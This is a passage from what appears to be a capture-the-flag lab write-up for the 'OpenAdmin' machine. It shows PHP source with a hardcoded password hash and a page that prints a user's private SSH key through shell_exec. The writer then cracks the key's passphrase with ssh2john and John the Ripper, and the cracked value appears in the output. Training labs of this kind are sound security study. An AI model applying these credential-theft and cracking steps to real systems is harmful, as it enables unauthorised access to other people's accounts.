 ```sh
jimmy@openadmin:/tmp$ cat /var/www/internal/index.php
<SNIP>
          <?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
      </div> <!-- /container -->
<SNIP>
```

The sha512 encrypted password is different: `Revealed`. 
![[cracked_hash.png]]

Successfully logging in reveals joanna's private ssh key, as mentioned in `main.php`

```sh
jimmy@openadmin:/tmp$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

![[internal_main.png]]

Unfortunately the key is encrypted, but we can use ssh2john to crack it.

```sh
❯ ssh2john joanna.id_rsa.encrypted > joanna.hash
Command executed at: 2025-03-22 15:29:22
❯ john joanna.hash --wordlist=~/MyWordlists/password/rockyou.txt
Command executed at: 2025-03-22 15:29:36
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna.id_rsa.encrypted)     
1g 0:00:00:03 DONE (2025-03-22 15:29) 0.2832g/s 2712Kp/s 2712Kc/s 2712KC/s bloodofademon..bloodmoon007
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
